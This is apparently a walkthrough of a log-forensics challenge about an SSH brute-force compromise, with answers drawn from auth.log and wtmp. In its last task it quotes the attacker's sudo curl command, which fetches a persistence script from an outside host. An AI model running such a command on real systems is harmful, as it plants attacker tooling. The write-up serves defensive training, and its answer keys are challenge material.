








### Task 1

Opening the `auth.log` file and looking at the content, we see that all the logs are generated at the IP `172.31.35.28`.
- This is not the IP of the attacker, but the IP of the machine that is generating the logs. (lol)

Scrolling down, we see that there is another IP address that tries to authenticate multiple times to the user `admin` but *fails*.
- The IP here is `65.2.161.68`.

> Analyze the auth.log. What is the IP address used by the attacker to carry out a brute force attack? : `65.2.161.68`

### Task 2

Scrolling through the multiple attempts by the same IP address, we see that multiple usernames are used to try and get access.
- However, we see one entry at `06:31:40` that shows an accepted password for the user `root`.

> The brute force attempts were successful and attacker gained access to an account on the server. What is the username of the account? : `root`

### Task 3

Looking though `auth.log`, we see that the user still tries to login with other users, but with no success.
- The user then submits the accepted password again for the `root` user at `06:32:44`. This was the authentication time.

Going to the `wtmp` file and looking for an event at this time or slightly after it, we see the following:
- The `wtmp` file is used to hold historical login information.

We see that there is a line at the exact time, (after it by 1 second) coming from the same IP of the attacker user, and with the username of `root`.
- We can use this [man page](https://linux.die.net/man/5/wtmp) for `wtmp` to understand the the number `7`, which is indicative of a process running.

So we see a process running that has the username of `root` and the remote host name, or IP address of `65.2.161.68`, and it is in the `wtmp` file, indicating a login attempt.
- The time of this event being logged is the answer to this question.

> Identify the timestamp when the attacker logged in manually to the server to carry out their objectives. The login time will be different than the authentication time, and can be found in the wtmp artifact. : `2024-03-06 06:32:45`.

### Task 4

Checking the `auth.log` file, we see that after the successful authentication for the `root` user, a session is opened and a session number is assigned right after.

> SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2? : `37`.

### Task 5

Scrolling through `auth.log` we see a `useradd` command that is logged.
- A new user was added with the name `cyberjunkie`.

> The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account? : `cyberjunkie`.

### Task 6

The *persistence* tactic by MITRE has several techniques, one of them being *Create Account*.
- Opening the page of this [technique](https://attack.mitre.org/techniques/T1136/), there are several sub techniques present.
- The only one that makes sense is the *local account* sub technique that has an ID of `T1136.001`.

The `cyberjunkie` user was created for persistence, and it was added to the `sudo` group for elevated privileges.

> What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account? : `T1136.001`.

### Task 7

Scrolling through `auth.log`, we see that the `root` user disconnects, and the session is terminated.
- The time of this event is the answer for this question.

Right after that, the `cyberjunkie` user logs in with malicious intent.

However, we only see here the time, with no date.
- Using the `wtmp` file, we see that at the same time there is an entry with an ID of `8`, which is indicative of a dead process, or the connection being terminated.

> What time did the attacker's first SSH session end according to auth.log? `2024-03-06 06:37:24`.

### Task 8

Scrolling through `auth.log`, we see a command being executed using `sudo` privilege.

The answer for this question is the value of the `COMMAND` variable.

> The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo? : `/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh` .

---

